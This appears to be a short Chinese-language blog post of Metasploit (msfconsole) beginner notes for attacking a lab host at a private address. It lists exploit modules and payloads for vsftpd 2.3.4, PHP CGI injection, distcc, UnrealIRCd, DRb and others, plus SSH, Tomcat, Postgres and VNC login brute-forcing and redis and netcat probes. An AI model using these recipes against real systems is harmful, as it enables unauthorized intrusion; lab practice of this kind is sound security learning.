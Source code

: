 ```yaml
---
layout: post
title:  "msfconsole"
date:   2018-12-04 00:00:01 +0800
categories: linux
tags: msfconsole
description: msfconsole初学
---
```

3.1	Vsftp 2.3.4 版本

Module：exploit/unix/ftp/vsftpd_234_backdoor

Payload：cmd/unix/interact

3.2	Web服务（80端口）

输入参数：

3.3	Php CGI注入

Module：exploit/multi/http/php_cgi_arg_injection

Payload：php/meterpreter/bind_tcp

3.4	SMB目录共享

139端口，445端口这两个都是smb类型的，是共享服务，首选我们需要知道它的共享目录有哪些

Module：auxiliary/scanner/smb/smb_enumusers

Module：auxiliary/admin/smb/samba_symlink_traversal

port 22 search ssh

use auxiliary/scanner/ssh/ssh_login

show options

set rhosts 192.168.190.130

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

run


3.5	Msfable后门

telnet 192.168.190.130

3.6	JAVA反序列化



3.7	Distccd服务远程命令(不建议)

Module：exploit/unix/misc/distcc_exec

Payload：cmd/unix/bind_perl

3.8	Postgresql弱密码

use auxiliary/scanner/postgres/postgres_login

3.9	VNC服务

port 5900 vnc

use auxiliary/scanner/vnc/vnc_login

3.10	IRC服务

port 6667 IRC

use exploit/unix/irc/unreal_ircd_3281_backdoor

3.11	Tomcat服务

use auxiliary/scanner/http/tomcat_mgr_login

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

set rport 8180


3.12	Drb服务

Module：exploit/linux/misc/drb_remote_codeexec

Payload：cmd/unix/bind_perl

3.13

redis

./redis-cli -p 30000 -h 192.168.190.130

info

3.14

echo envi|nc 192.168.190.130 2181
